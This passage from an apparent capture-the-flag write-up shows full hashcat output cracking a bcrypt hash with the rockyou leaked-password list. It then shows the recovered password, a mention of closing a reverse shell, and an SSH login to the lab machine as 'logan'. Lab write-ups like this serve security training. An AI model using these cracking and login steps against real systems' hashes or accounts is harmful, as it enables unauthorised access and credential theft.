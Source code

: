 ```bash

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 843 MB

Dictionary cache built:
* Filename..: /home/please/git/red_tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Tue Feb  6 00:08:13 2024 (0 secs)
Time.Estimated...: Tue Feb  6 00:08:13 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/please/git/red_tools/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     7254 H/s (6.24ms) @ Accel:1 Loops:16 Thr:24 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> dangerous
Hardware.Mon.#1..: Temp: 52c Fan:  0% Util: 94% Core:2760MHz Mem:10501MHz Bus:16

Started: Tue Feb  6 00:08:08 2024
Stopped: Tue Feb  6 00:08:15 2024
```

Heading back to the server with plaintext credentials in hand, we can close out of our reverse shell, and login using `logan@<IP>`, using `tequieromucho` as the password:

```bash
[please@ruby]:[~] $ ssh logan@10.129.45.143
The authenticity of host '10.129.45.143 (10.129.45.143)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: 10.10.11.242
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.45.143' (ED25519) to the list of known hosts.
logan@10.129.45.143's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>
```